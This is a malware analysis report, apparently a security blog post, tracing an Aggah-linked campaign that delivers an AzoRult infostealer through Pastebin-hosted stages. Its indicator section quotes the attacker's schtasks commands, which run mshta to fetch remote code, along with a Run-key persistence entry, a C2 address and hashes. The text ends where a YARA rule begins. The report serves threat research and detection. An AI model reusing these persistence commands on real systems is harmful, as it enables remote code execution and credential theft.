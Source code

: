 Figure 2. Deobfuscated HTA script
This script is obfuscated using a combination of URL-encoding and string reversing. Once again, the script is only a dropper that downloads the next malicious stage hosted on PasteBin. Like the previous Aggah campaigns, the pastes were created by the “hagga” account. This stage is designed to kill the Office suite processes and to create a new registry key to achieve persistence on the target system. This way the hagga dropper would survive the reboot.
Figure 3. Another obfuscated Javascript snippet
In detail, the malware uses three mechanisms to ensure its persistence on the victim machine:
the creation of a new task called “Windows Update” that triggers every 60 minutes; the creation of another task called “Update” that triggers every 300 minutes;the setting of “HKCU\Software\Microsoft\Windows\CurrentVersion\Run\AvastUpdate” registry key;
Each entry contact pastebin.com to download and execute further payload. The interesting fact is that the URL referred by tasks and regkey are different from each other, so the attacker is able to deliver more than a payload by just changing one of the pastes.
Figure 4. Code used to set persistence
During the analysis, all the three URL pointed to the same script, which is reported in the following screen. The cleaned code reveals a byte array composing Powershell commands. It downloads two other snippets from Pastebin. 
Figure 5. Deobfuscation process

Figure 6. Powershell script used to inject the final payload in legit process
The first one corresponds to the “Hackitup” DLL file, previously discussed in our previous report. The second paste is the final payload. In many other Aggah campaigns it corresponds to RevengeRAT, which could also be linked to the Gorgon Group. However, during the analysis we identified another kind of final stage. 
The AzoRult Payload
Hash37086a162bebaecba466b3706acea19578d99afd2adf1492a074536aa7c742c1ThreatAzoRult Brief DescriptionAzoRult final payloadSsdeep3072:tuOSXpMx7ZAlHsbfUkolNGti7lfqeSxM3SpyEY3E/qxg/:Zzx7ZApszolIo7lf/ipT/q
Table 3. Sample’s information
This time, the final payload was a variant of a popular infostealer for sale on the dark markets, AzoRult. It is able to access to saved credentials of the major browser like Chromium, Firefox, Opera, Vivaldi to exfiltrate cookies, credentials and other navigation data.
Figure 7. AzoRult tries to extract info from browsers files
Having a deeper look to the command and control infrastructure we noticed some interesting details. In fact, we discovered the particular, customized, AzoRult 3.2 fork called “Mana Tools”. At the same time, reviewing the infection chain data revealed the presence of a reference to this “Mana” customization even in the blogspot page abused in the first steps of the chain. 
Figure 8. Blogspot page (on the left); “Mana” logo related to AzoRult C2

Conclusion
We have monitored the campaign and its final payload for different days finding the attacker delivered AzoRult samples only a few times, during the first days of September 2019, and after that it resumed to deliver RevengeRAT samples.
The “Mana” campaign opens to a series of hypothesis about the threat actor behind it. According to Palo Alto Networks, the “Aggah” infection chain could have been used by GorgonGroup too, but with a different payload. So, it is possible that Gorgon added this particular AzoRult version to their arsenal, maybe to retrieve initial information about its initial victims or to increase their recon capabilities. But the confidence in this scenario is not high enough to confirm it. Another possibility is that another minor cyber criminal leveraged the Aggah infection chain to deliver his AzoRult payload, which is a commodity malware, or also the actors behind the “Hagga” Pastebin account used their own infection chain to conduct its own attack campaign. Many question only further hunting could answer.
Indicator of Compromise
Hashes7f649548b24721e1a0cff2dafb7269741ff18b94274ac827ba86e6a696e9de8784833991f1705a01a11149c9d037c8379a9c2d463dc30a2fec27bfa52d218fa637086a162bebaecba466b3706acea19578d99afd2adf1492a074536aa7c742c1c2d594e23480215c94dc7f79cf50af3b3b4270fa3a60aea81f877bd787a684a4a318ce12ddd1b512c1f9ab1280dc25a254d2a1913e021ae34439de9163354243cfd1363ce16156e55460b29bf4d62045ebcd5180af50d732c2353daf12618c18Persistenceschtasks /create /sc MINUTE /mo 60 /tn Windows Update /tr mshta.exe http://pastebin.com/raw/vXpe74L2 /Fschtasks /create /sc MINUTE /mo 300 /tn ""Update"" /tr mshta.exe http://pastebin.com/raw/JdTuFmc5 /FHKCU\Software\Microsoft\Windows\CurrentVersion\Run\AvastUpdateC2hxxp://170.130.205.86/index.php
Yara Rules
import "pe"
rule Mana_Aggah_campaign_excel_dropper_Sep_2019{
